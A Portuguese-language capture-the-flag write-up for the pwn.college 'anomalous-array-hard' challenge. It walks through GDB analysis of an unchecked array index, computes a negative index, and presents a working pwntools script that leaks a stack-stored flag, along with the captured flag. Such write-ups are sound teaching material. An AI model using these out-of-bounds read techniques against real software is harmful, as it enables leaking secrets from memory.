







# pwn.college — Anomalous Array Hard (Memory Corruption)
### Intro to Cybersecurity · Orange Belt · Binary Exploitation

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Binary Exploitation — Memory Corruption  
> **Técnicas:** Array index out-of-bounds · Leitura de memória fora do array · Índice negativo · Análise de assembly com GDB · Identificação de array grande via loop de cópia · Automação com pwntools · Little-endian byte reconstruction

---

## Descrição do Desafio

O desafio `anomalous-array-hard` é a versão sem informações do `anomalous-array-easy`. A vulnerabilidade central é a mesma — o programa expõe um índice de array sem validação, permitindo acessar regiões de memória fora dos limites — mas desta vez **o binário não imprime o layout da stack, nem os endereços do array ou da flag**. Toda a análise precisa ser feita via GDB.

---

## Reconhecimento Inicial — Comportamento do Binário

Ao rodar o binário diretamente, ele solicita um índice, retorna o "hacker number" correspondente e encerra. Nenhuma informação de endereço é exibida:



```
Which number would you like to view? 10
Your hacker number is fffffffffffffface1337
Goodbye!
```

---

## Análise com GDB — Mapeando a Memória

Com um breakpoint em `challenge` e o disassembly carregado, o início da função revela imediatamente um `open` seguido de um `read` — o programa abre e lê a flag antes de qualquer interação com o usuário.

### Passo 1 — Endereço da Flag (via `open` + `read`)

O primeiro passo foi inspecionar o `open` para confirmar qual arquivo estava sendo aberto:



```
rdi    0x618c84bf8008    → "/flag"
rsi    0x0
rdx    0x7ffce1a20190
```

Confirmado: o arquivo aberto é `/flag`. Em seguida, com um breakpoint no `read` logo após o `open`, o `$rsi` aponta para o buffer de destino onde os bytes da flag serão armazenados:



```
rdi    0xffffffff        (fd retornado pelo open)
rsi    0x7ffce1a20190   (endereço onde a flag será armazenada)
rdx    0x100            (256 bytes — tamanho máximo lido)
```

A flag está armazenada em `0x7ffce1a20190`.

---

### Passo 2 — Identificando o Array Real

Logo após o `read`, o disassembly revela duas fases distintas de inicialização de dados na stack:

**Fase 1 — Array pequeno de `int` (18 elementos, 4 bytes cada):**



O código preenche manualmente 18 valores inteiros a partir de `rbp-0xbd0` — os hacker numbers como `0xdeadbeef`, `0x1337c0de`, `0xfaceb00c`, etc. Esse foi o array que inicialmente pareceu ser o alvo, mas tentativas de calcular o offset a partir de `rbp-0xbd0` não funcionaram. A razão ficou clara ao analisar a fase seguinte.

**Fase 2 — Array grande de `long` (126 elementos, 8 bytes cada):**



Essa seção do assembly implementa o seguinte loop:

```c
int  array_pequeno[18];   // em rbp - 0xbd0
long array_grande[126];   // em rbp - 0x408

for (int i = 0; i <= 125; i++) {
    array_grande[i] = (long) array_pequeno[i % 18];
}
```

O array pequeno serve apenas como fonte — ele lista os 18 hacker numbers que serão repetidos. O array que o programa realmente expõe ao usuário é o **array grande**, que começa em `rbp - 0x408`. Cada elemento tem 8 bytes, e o array pequeno é repetido 7 vezes completas para preencher as 126 posições.

A instrução central do loop é:

```asm
mov  QWORD PTR [rbp+rdx*8-0xb78], rax
```

Onde `rdx = i + 0xee`. Substituindo quando `i = 0`:

```
endereço = rbp + 0xee*8 - 0xb78
         = rbp + 0x770  - 0xb78
         = rbp - 0x408
```

Portanto, o **primeiro elemento do array grande** — o índice `0` exposto ao usuário — está em `rbp - 0x408`. Esse é o endereço que importa para calcular o offset.

O cálculo do módulo `i % 18` usa uma multiplicação por número mágico (`0xe38e38e38e38e38f`) seguida de shifts — otimização de compilador para evitar a instrução `div`, que é mais lenta.

---

### Passo 3 — Calculando o Offset

Com os dois endereços em mãos:

- **Flag:** `0x7ffce1a20190`
- **Início do array grande (índice 0):** `rbp - 0x408`

Para obter o endereço numérico do início do array grande, basta considerar `rdx = 0` na expressão de endereçamento e inspecionar o valor resultante. A diferença com o endereço da flag, dividida por 8 (tamanho de cada elemento), dá o offset em número de índices:

```
array_grande[0] - flag = diferença em bytes
diferença / 8 = 239
```

Como a flag está em endereços **mais baixos** que o array, o índice precisa ser **negativo**: `-239`.

---

## Montando o Exploit

O exploit é idêntico ao da versão easy — apenas o índice inicial muda de `-185` para `-239`:



```python
from pwn import *

PATH = '/challenge/anomalous-array-hard'

context.log_level = "error"

n = -239
i = 0
flag = ""

while (n < 0):
    p = process(PATH)
    p.sendline(f"{n}")
    p.recvuntil("Your hacker number is ")
    password = p64(int(p.recvline().strip(), 16))
    flag = flag + password.decode("latin-1")
    p.close()

    n = n + 1

    if "}" in flag:
        flag_limpa, lixo = flag.split("}")
        flag_limpa = flag_limpa + "}"
        print(f"A flag {flag_limpa} foi encontrada após o {n+239}o input.")
        break
```

A lógica de conversão é a mesma do easy: `p.recvline()` captura o hex completo, `.strip()` remove o `\n`, `int(..., 16)` converte para inteiro, `p64()` desfaz o little-endian reconstituindo os bytes ASCII, e `.decode('latin-1')` permite a concatenação com a string `flag`.

---

## Resultado Final



```
A flag pwn.college{0s7H2N2hKvp8b2PaqGBjKDJnWat.0VN4cDOxwCOzYTNxEzW} foi encontrada após o 8o input.
```

---

## Resumo do Fluxo de Exploração

```
1. GDB → break no open → rdi = "/flag" confirmado
2. GDB → break no read após open → rsi = 0x7ffce1a20190 (endereço da flag)
3. Disassembly → array pequeno em rbp-0xbd0 (18 ints, 4 bytes) — apenas fonte
4. Disassembly → loop copia array pequeno 7x para array grande (126 longs, 8 bytes)
5. Array grande começa em rbp-0x408 → índice 0 exposto ao usuário
6. diferença (array_grande[0] - flag) / 8 = 239 → índice inicial = -239
7. Mesmo exploit do easy com n = -239 → blocos de 8 bytes coletados e reconstruídos
8. flag completa encontrada após o 8º input
```

---

## Comparação entre Easy e Hard

| | anomalous-array-easy | anomalous-array-hard |
|---|---|---|
| Endereços fornecidos pelo binário | ✅ Sim | ❌ Não |
| Como obter o endereço da flag | Leitura direta do output | GDB: `$rsi` no `read` após `open` |
| Como obter o endereço do array | Leitura direta do output | GDB: análise do loop de cópia no disassembly |
| Array acessado pelo usuário | Array grande gerado por loop (cópia do array pequeno) | Array grande gerado por loop (cópia do array pequeno) |
| Índice inicial do exploit | `-185` | `-239` |
| Estrutura do exploit | Idêntica | Idêntica |
| Flag encontrada após N inputs | 8 | 8 |
